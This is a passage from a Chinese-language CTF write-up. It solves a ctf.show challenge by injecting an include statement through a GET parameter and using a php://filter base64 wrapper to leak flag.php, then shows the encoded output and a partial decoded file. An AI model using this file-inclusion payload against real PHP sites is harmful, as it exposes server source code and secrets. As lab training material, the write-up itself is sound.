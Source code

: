 ***

***

有了以上的基础后，我们得到的答案代码片段是

```php
http://e688fc70-5820-4a9b-96ae-5d688f4d2743.challenge.ctf.show/?c=include"$_GET[url]"?>&url=php://filter/read=convert.base64-encode/resource=flag.php
```

<figure><img src="../.gitbook/assets/image 12.png" alt=""><figcaption></figcaption></figure>

可以看到，我们将flag.php的内容转化为base64编码展示出来了。

```php
PD9waHANCg0KLyoNCiMgLSotIGNvZGluZzogdXRmLTggLSotDQojIEBBdXRob3I6IGgxeGENCiMgQERhdGU6ICAgMjAyMC0wOS0wNCAwMDo0OToxOQ0KIyBATGFzdCBNb2RpZmllZCBieTogICBoMXhhDQojIEBMYXN0IE1vZGlmaWVkIHRpbWU6IDIwMjAtMDktMDQgMDA6NDk6MjYNCiMgQGVtYWlsOiBoMXhhQGN0ZmVyLmNvbQ0KIyBAbGluazogaHR0cHM6Ly9jdGZlci5jb20NCg0KKi8NCg0KJGZsYWc9ImN0ZnNob3d7OTJkMTBlNjEtMTg1Zi00NTU4LTk4MGMtZWQ1Y2IyMjllNGQ3fSI7DQo=
```

然后进行base64解码，发现是

<figure><img src="../.gitbook/assets/image 13.png" alt=""><figcaption></figcaption></figure>

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:49:19
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:49:26
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

```